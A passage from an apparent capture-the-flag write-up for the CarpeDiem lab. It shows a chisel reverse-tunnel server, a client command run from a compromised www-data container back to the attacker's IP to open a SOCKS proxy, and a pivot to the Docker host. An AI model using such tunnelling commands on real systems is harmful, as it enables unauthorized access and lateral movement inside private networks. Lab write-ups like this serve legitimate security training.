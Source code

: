 
    oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
    2022/11/28 21:04:03 server: Reverse tunnelling enabled
    2022/11/28 21:04:03 server: Fingerprint QgJndP8XXAYGo7Jf2+vSTSFH4iAa+tNYtrbWrm82J4k=
    2022/11/28 21:04:03 server: Listening on http://0.0.0.0:8000



And I'll connect from the container:



    www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:socks 
    2022/11/28 21:05:25 client: Connecting to ws://10.10.14.6:8000
    2022/11/28 21:05:25 client: Connected (Latency 86.893335ms)



I'll configure both `proxychains` and FoxyProxy to use this socks proxy,
and now I can interact with hosts on this subnet. For example, the .1 is
showing the "Coming Soon" site:

![](/img/image-20221128160801212.png)

#### 172.17.0.1 - host

Typically in Docker the .1 is the host. The fact that it matches what I
see on the given IP for CarpeDiem is a good sign that's the case as
well.
